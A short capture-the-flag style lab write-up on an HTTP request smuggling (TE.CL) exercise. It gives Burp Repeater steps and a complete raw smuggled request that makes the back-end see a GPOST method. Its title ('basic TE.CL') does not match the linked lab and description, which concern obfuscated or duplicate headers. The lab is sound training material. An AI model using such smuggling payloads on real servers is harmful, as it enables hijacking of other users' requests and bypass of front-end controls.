 # HTTP request smuggling, basic TE.CL vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header) involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method. 

## Reproduction and proof of concept

1. In Burp Suite, disable the **Autoupdate content length** in Repeater (in the topmost menu row)
2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The second (or third) response should say: ``Unrecognized method GPOST``.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`. 
